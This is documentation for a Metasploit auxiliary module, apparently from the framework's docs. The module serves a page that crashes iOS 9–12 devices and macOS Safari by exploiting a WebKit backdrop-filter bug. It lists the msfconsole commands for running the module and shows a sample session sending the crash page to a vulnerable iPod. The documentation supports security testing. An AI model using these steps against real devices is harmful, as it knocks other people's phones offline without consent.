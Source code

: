 ## Vulnerable Application

This module exploits a vulnerability in Safari WebKit to crash the device.
The bug affects all iOS devices running iOS 9 up to iOS 12 and Safari on OSX 10.13.6

The device will "re-spring" the operating system, but not actually restart the device.

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/dos/apple_ios/webkit_backdrop_filter_blur`
1. Do: `set URIPATH /` (Optional)
1. Do: `run`
1. When you visit the device on a vulnerable device, it should crash the operating system

## Scenarios

### Safari 602.1 on iOS 10.1.1

```
msf5 > use auxiliary/dos/apple_ios/webkit_backdrop_filter_blur
msf5 auxiliary(dos/apple_ios/webkit_backdrop_filter_blur) > set URIPATH /
URIPATH => /
msf5 auxiliary(dos/apple_ios/webkit_backdrop_filter_blur) > run

[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.1:8080/
[*] Server started.
[*] 192.168.0.2: Sending response to User-Agent: Mozilla/5.0 (iPod touch; CPU iPhone OS 10_1_1 like Mac OS X) AppleWebKit/602.2.14 (KHTML, like Gecko) Version/10.0 Mobile/14B150 Safari/602.1

```
